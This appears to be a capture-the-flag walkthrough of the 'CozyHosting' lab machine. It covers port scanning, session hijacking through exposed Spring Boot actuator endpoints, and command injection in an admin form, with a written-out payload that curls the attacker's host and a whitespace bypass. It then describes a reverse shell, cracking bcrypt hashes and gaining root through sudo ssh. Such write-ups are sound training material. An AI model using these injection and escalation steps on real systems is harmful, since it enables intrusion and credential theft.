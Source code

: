 # 

![Untitled](/assets/images/cozyhosting/0.png)

## NMAP

```json
# Nmap 7.94 scan initiated Mon Sep  4 01:16:04 2023 as: nmap -sC -sV -oA nmap/cozyhosting 10.10.11.230
Nmap scan report for 10.10.11.230
Host is up (0.057s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     nginx 1.18.0 (Ubuntu)
5555/tcp open  freeciv?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep  4 01:18:34 2023 -- 1 IP address (1 host up) scanned in 149.32 seconds
```

## RECON

We see that 3 ports are opened (22,80 and 5555). Let’s first visit port 80 (HTTP), the banner from NMAP tells us it is an `nginx` server running on `Ubuntu`. Going to [http://10.10.11.230](http://10.10.11.230) we see 

![Untitled](/assets/images/cozyhosting/1.png)

This website seems to be some sort of Hosting Provider. Hovering over all the buttons tells us that only `Login` actually leads somewhere. Either way let’s run a directory bruteforce to look for paths on this website.

### Directory Brute force

![Untitled](/assets/images/cozyhosting/2.png)

Looking at the results we see a few interesting endpoints. `/admin` leads to a 401 and `/error` leads to a 505. Let’s navigate to `/error` to checkout the error page and see if it will reveal the framework that is being used. 

![Untitled](/assets/images/cozyhosting/3.png)

`“Whitelabel Error Page”`  From doing Bug Bounty, I’ve actually seen this error page before and immediately identified that this is an error page for the Spring Boot JAVA framework. A quick google search will also show us that this is a Spring Boot error page.

![Untitled](/assets/images/cozyhosting/4.png)

Now that we know that it is running Spring Boot we can try and brute force the `/actuator` endpoints for Spring Boot.  TLDR of the `/actuator` endpoint is that it is a debugging endpoint for developers.

![Untitled](/assets/images/cozyhosting/5.png)

> Source: [https://www.baeldung.com/spring-boot-actuators](https://www.baeldung.com/spring-boot-actuators)
> 

![Untitled](/assets/images/cozyhosting/6.png)

We see that we get a bunch of hits from our directory brute force. Going to `/actuator/sessions` reveals the session tokens for all the users of the website.

![Untitled](/assets/images/cozyhosting/7.png)

With this information, we can perform a “Session Hijacking” Attack  and login as the user “kanderson”

![Untitled](/assets/images/cozyhosting/8.png)

We can change our cookie to the victim’s cookie. Now let’s try accessing the `/admin` endpoint again.

![Untitled](/assets/images/cozyhosting/9.png)

We see that we now have access to the Admin Dashboard.

## Foothold

Looking at the Admin Dashboard, we find a functionality that seems to be executing a shell command.

![Untitled](/assets/images/cozyhosting/10.png)

Let’s open up Burp and look at the request that is made when we use this functionality .

![Untitled](/assets/images/cozyhosting/11.png)

We can see that a POST request gets sent to the endpoint `/executessh` and it takes two parameters host and username. From here I pretty much was sure that a shell command was being executed in the backend. The command would probably look something like

![Untitled](/assets/images/cozyhosting/12.png)

Our user input is being inserted into a shell command. If we could escape out of the ssh command and sneak in our own command we will be able to achieve command injection. Let’s try changing our POST request data to

```bash
host=127.0.0.1&username=;curl 10.10.16.10:8000;
```

When this request gets sent. We should expect the backend shell command will be transformed to

![Untitled](/assets/images/cozyhosting/13.png)

Let’s send up a python http server on port 8000 to see if we sucessfully injected the curl command on the server.

![Untitled](/assets/images/cozyhosting/14.png)

However, when we send the request we see that whitespaces are not allowed! But we can bypass this in multiple ways. First, we could use ${IFS}.

![Untitled](/assets/images/cozyhosting/15.png)

Second way is using something called “brace expansion”. I actually learned about this technique from ippsec’s video on this box. Be sure to check out ippsec’s video on this box he covers the box much better than I do.

[https://www.youtube.com/watch?v=okTl6kWrncg](https://www.youtube.com/watch?v=okTl6kWrncg)

Brace Expansion

![Untitled](/assets/images/cozyhosting/16.png)

Brace Expansion will turn this command into 

```bash
ssh 127.0.0.1@;curl 10.10.16.10:8000;
```

> Official GNU documentation of Brace Expansion:[https://www.gnu.org/software/bash/manual/html_node/Brace-Expansion.html](https://www.gnu.org/software/bash/manual/html_node/Brace-Expansion.html)
> 

Now we can create a reverse shell on the box.

![Untitled](/assets/images/cozyhosting/17.png)

## USER

we see that we are the app user on the box. If we run `ls` we can see the jar file of the web app. Let’s move it onto your machine and extract it. After, extracting it we see two files.

![Untitled](/assets/images/cozyhosting/18.png)

Navigating to the BOOT-INF file which usually contains properties about the Spring Boot application. We see an [`application.properties`](http://application.properties) file which contains the postgres database password.

![Untitled](/assets/images/cozyhosting/19.png)

Let’s check if postgres is running on the box. We run `ss -ltop`

![Untitled](/assets/images/cozyhosting/20.png)

We see that postgresql is indeed running. Let’s try logging into postgres with the password.

![Untitled](/assets/images/cozyhosting/21.png)

We get logged into the postgres database and we can see 4 databases. We are interested in the cozyhosting databse. So let’s have a look at the contents of the database.

![Untitled](/assets/images/cozyhosting/22.png)

We find the password hash of the admin and kanderson user. Let’s try to crack these password on our machine using hashcat. Judging from the `$2a$` we can guess that this is a bcrypt hash, so let’s try cracking this hash with mode 3200(bcrypt).

![Untitled](/assets/images/cozyhosting/23.png)

We get the password of the admin user `manchesterunited` . Let’s try logging into the josh user.

![Untitled](/assets/images/cozyhosting/24.png)

![Untitled](/assets/images/cozyhosting/25.png)

## Root

We get logged into the josh user. Now let’s run `sudo -l` to see if we have any easy win on privilege escalation.

![Untitled](/assets/images/cozyhosting/26.png)

We see that we can run `/usr/bin/ssh *` as the root user. Indicating that we can run any ssh  command we want as root. Let’s go to gtfobin to look for a payload

![Untitled](/assets/images/cozyhosting/27.png)

> Source: [https://gtfobins.github.io/gtfobins/ssh/](https://gtfobins.github.io/gtfobins/ssh/)
> 

We run the command and we get a shell as root.

![Untitled](/assets/images/cozyhosting/28.png)
